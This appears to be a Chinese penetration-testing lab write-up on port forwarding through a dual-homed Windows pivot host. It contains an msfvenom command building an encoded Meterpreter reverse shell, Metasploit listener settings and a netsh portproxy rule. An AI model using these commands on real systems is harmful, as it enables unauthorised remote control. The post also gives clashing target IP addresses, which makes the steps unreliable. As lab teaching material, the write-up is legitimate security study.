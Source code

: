 
---
title: 端口转发实操
date: 2025-10-27 14:46:19
tags: [网络安全, 端口转发, 渗透测试]
---

# 端口转发实操

## 实验环境配置

### 网络拓扑结构
- **攻击机**: Kali Linux (192.168.37.129)
- **跳板机**: Windows Server 2016 (双网卡——Nat,仅主机)
- **靶机**: Windows 10 (192.168.20.132)

### 网络配置检查

Kali Linux 网络配置

ifconfig——192.168.37.129

Windows 10 网络配置

ipconfig——192.168.37.132

win server 2016 同样ipconfig一下，看到图示分别连接内外的两个网卡

故而充当跳板机
**![](images/1.png)**
## 端口转发实战步骤

### 1. 环境连通性测试

测试 Kali 到 Win10 的连通性

ping 192.168.20.132

测试跨网段连通性

ping 192.168.20.129

发现37的网段通，20的网段不通
**![](images/3.png)**
用win10去pingkali也是不通的

环境没问题
### 2. 生成反向Shell木马

使用 msfvenom 生成木马文件

msfvenom -e x64/xor_dynamic \-p windows/x64/meterpreter/reverse_tcp \LHOST=192.168.37.129 \LPORT=5555 \-f exe > win_shell.exe
**![](images/6.png)**
**![](images/7.png)**
### 3. 配置Metasploit监听
bash
启动 msfconsole
msfconsole
设置监听模块
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.37.129
set LPORT 5555
exploit
**![](images/8.png)**
**![](images/9.png)**
### 4. 端口转发配置

在跳板机上配置端口转发

netsh interface portproxy add v4tov4 \listenport=8080 \listenaddress=0.0.0.0 \connectport=5555 \connectaddress=192.168.37.132
**![](images/10.png)**
**![](images/11.png)**

成功看到win10的localhost

**![](images/12.png)**
**![](images/13.png)**
## 常见问题解决

### 报错学习：Kali 网络连接问题
如果 Kali 无法上网，手动启动网卡：

**![](images/14.png)**

## 实验总结

通过本次实验，我们掌握了：
1. 多网段环境下的端口转发技术
2. 反向Shell的生成和监听配置
3. 跨网段渗透测试的基本流程
4. 常见网络问题的排查方法

**注意事项**: 本实验仅用于网络安全学习目的，请在合法授权的环境中进行测试。